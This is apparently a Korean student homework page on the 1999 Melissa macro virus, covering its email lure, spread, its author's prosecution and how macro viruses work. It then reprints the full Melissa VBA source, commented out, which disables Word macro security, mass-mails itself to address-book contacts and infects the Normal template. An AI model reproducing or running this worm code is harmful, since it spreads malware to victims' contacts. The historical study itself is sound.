 # Hw1 - 실제 사례를 찾아보자


# Melissa Virus

**1999년 3월 26일** 이메일 클라이언트 Outlook 97, 98로 부터 대량의 메일이 전송되었다.
메일의 형식은 다음과 같다
```
보낸이: <감염 자료를 보낸사람의 이름>
제목: Important message from
받는이 <50개의 메일을 받는 사람>
첨부파일: LIST.DOC
본문: Here is that document you asked for ... don't show anyone else ;-)TCizzle
```
![melissa](meilssa.png)

이러한 형식으로 보내진 메일은 사용자가 메일을 열어 **LIST.DOC** 파일을 실행시키면 DOC파일에 들어있는 악성코드가 자동으로 해당 유저의 주소록을 뒤져 50통의 악성코드 멜리사가 들어있는 메일을 전송한다.

1999년 3월 26일 처음 발견된 **멜리사 바이러스**(Melissa Virus)는 단 45분 만에 직원수가 500명이 되는 기업에서 쌓이는 메일을 감당하지 못하고 오버플로우를 일으켜 메일을 차단하게 만들었으며 1주일만에 최소 300개의 기관, 컴퓨터 10만대를 감염시켰다.

멜리사 바이러스의 개발자는 당시 31세의 프로그래머로 **데이비드 스미스**(David L. Smith)라는 뉴저지 카운티에 AT&T의 협력업체에서 일하는 평범한 사람이었다.
![David](David.png)
멜리사는 처음부터 컴퓨터를 망가뜨리기 위한 목적으로 만든것이 아닌 순전히 심심풀이로 만든것으로 알려져 있다. 하지만 E-mail을 통해 순식간에 확산된 멜리사는 수 많은 컴퓨터를 감염시켰으며 결국 FBI가 나서 체포를 하게 되었다.

이는 **바이러스 개발혐의로** 기소된 **최초의 인물**이었다. 데이비드는 이 사건으로 징역 40년과 48만 달러의 벌금을 물기로 되어 있어으나 FBI 수사에 협조한다는 조건으로 징역 20개월과 벌금5000달러라는 최종 판결이 내려졌다.

멜리사 바이러스(Melissa Virus) 혹은 사이버 패스트(Cyber Fast) 라고도 불리는 바이러스는 **매크로 바이러스**(Macro Virus)에 일종으로 MS 워드 , 엑셀과 같이 매크로 언어를 지원하는 문서파일에 기생하는 바이러스이다. 매크로 바이러스는 문서가 닫히거나 열릴때 자동적으로 실행되며 일반적으로 문서의 일반 매크로를 바이러스로 바꾸어 감염시키는 방법이다.

매크로 바이러스는 **운영체제**(OS)에 관계없이 동작하는 응용프로그램 내부에서 동작하는 것이 가능한 바이러스이다. 때문에 Window, Mac과 같은 운영체제와 관계없이 Ms 워드와 같이 매크로 언어를 지원하는 응용프로그램만 있다면 감염이 가능하다.

---

## Melissa Virus Source Code
```VB
'Private Sub Document_Open()
'On Error Resume Next
'IF System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", '"Level") <> ""
'Then
'CommandBars("Macro").Controls("Security...").Enabled = False
'System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", '"Level") = 1&
'Else
'CommandBars("Tools").Controls("Macro").Enabled = False
'Options.ConfirmConversions = (1 - 1): Options.VirusProtection = '(1 - 1):
'Options.SaveNormalPrompt = (1 - 1)
'End If
'Dim UngaDasOutlook, DasMapiName, BreakUmOffASlice
'Set UngaDasOutlook = CreateObject("Outlook.Application")
'Set DasMapiName = UngaDasOutlook.GetNameSpace("MAPI")
'If System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") <> "... by Kwyjibo"
'Then
'If UngaDasOutlook = "Outlook" Then
'DasMapiName.Logon "profile", "password"
'   For y = 1 To DasMapiName.AddressLists.Count
'       Set AddyBook = DasMapiName.AddressLists(y)
'       x = 1
'       Set BreakUmOffASlice = UngaDasOutlook.CreateItem(0)
'       For oo = 1 To AddyBook.AddressEntries.Count
'           Peep = AddyBook.AddressEntries(x)
'           BreakUmOffASlice.Recipients.Add Peep
'           x = x + 1
'           If x > 50 Then oo = AddyBook.AddressEntries.Count
'        Next oo
'        BreakUmOffASlice.Subject = "Important Message From " &
'Application.UserName
'        BreakUmOffASlice.Body = "Here is that document you asked 'for ... don't
'show anyone else ;-)"
'        BreakUmOffASlice.Attachments.Add ActiveDocument.FullName
'        BreakUmOffASlice.Send
'        Peep = ""
'   Next y
'DasMapiName.Logoff
'End If
'System.PrivateProfileString("", '"HKEY_CURRENT_USER\Software\Microsoft\Office\",
'"Melissa?") = "... by Kwyjibo"
'End If
''Set ADI1 = ActiveDocument.VBProject.VBComponents.Item(1)
'Set NTI1 = NormalTemplate.VBProject.VBComponents.Item(1)
'NTCL = NTI1.CodeModule.CountOfLines
'ADCL = ADI1.CodeModule.CountOfLines
'BGN = 2
'If ADI1.Name <> "Melissa" Then
'If ADCL > 0 Then _
'ADI1.CodeModule.DeleteLines 1, ADCL
'Set ToInfect = ADI1
'ADI1.Name = "Melissa"
'DoAD = True
'End If
'If NTI1.Name <> "Melissa" Then
'If NTCL > 0 Then _
'NTI1.CodeModule.DeleteLines 1, NTCL
'Set ToInfect = NTI1
'NTI1.Name = "Melissa"
'DoNT = True
'End If
''If DoNT <> True And DoAD <> True Then GoTo CYA
'If DoNT = True Then
'Do While ADI1.CodeModule.Lines(1, 1) = ""
'ADI1.CodeModule.DeleteLines 1
'Loop
'ToInfect.CodeModule.AddFromString ("Private Sub Document_Close()'")
'Do While ADI1.CodeModule.Lines(BGN, 1) <> ""
'ToInfect.CodeModule.InsertLines BGN, ADI1.CodeModule.Lines(BGN, '1)
'BGN = BGN + 1
'Loop
'End If
'If DoAD = True Then
'Do While NTI1.CodeModule.Lines(1, 1) = ""
'NTI1.CodeModule.DeleteLines 1
'Loop
'ToInfect.CodeModule.AddFromString ("Private Sub Document_Open()")
'Do While NTI1.CodeModule.Lines(BGN, 1) <> ""
'ToInfect.CodeModule.InsertLines BGN, NTI1.CodeModule.Lines(BGN, '1)
'BGN = BGN + 1
'Loop
'End If
'CYA:
'If NTCL <> 0 And ADCL = 0 And (InStr(1, ActiveDocument.Name, "Document") =
'False) Then
'ActiveDocument.SaveAs FileName:=ActiveDocument.FullName
'ElseIf (InStr(1, ActiveDocument.Name, "Document") <> False) Then
'ActiveDocument.Saved = True: End If
'WORD/Melissa written by Kwyjibo
'Works in both Word 2000 and Word 97
'Worm? Macro Virus? Word 97 Virus? Word 2000 Virus? You Decide!
'Word -> Email | Word 97 <--> Word 2000 ... it's a new age!
'If Day(Now) = Minute(Now) Then Selection.TypeText " Twenty-two points, plus
'triple-word-score, plus fifty points for using all my letters.  'Game's over.
'I'm outta here."
'End Sub
```
위의 코드는 전부 주석 처리 해 놓았다.
아무래도 위의 매크로 코드는 VScode에서 실제로 작동하는 것 같다. 
~~주석처리를 안하니까 HW-1.md 파일을 자꾸 백신이 지웠다...~~ 

### [Source Code](http://www.rohitab.com/discuss/topic/994-melissa-source-code/)
---
# 참조
https://ko.wikipedia.org/wiki/%EB%A9%80%EB%A6%AC%EC%82%AC_%EC%9B%9C

http://news.khan.co.kr/kh_news/khan_art_view.html?art_id=200903251757125

https://www.donga.com/news/Inter/article/all/19990826/7465085/1

http://news.grayhash.com/html/category/malware/f84e7557a7.html

http://www.rohitab.com/discuss/topic/994-melissa-source-code/

https://www.linux.co.kr/home/lecture/index.php?cateNo=7&secNo=492&theNo=&leccode=523

https://m.blog.naver.com/wnrjsxo/221721852010

https://photohistory.tistory.com/15791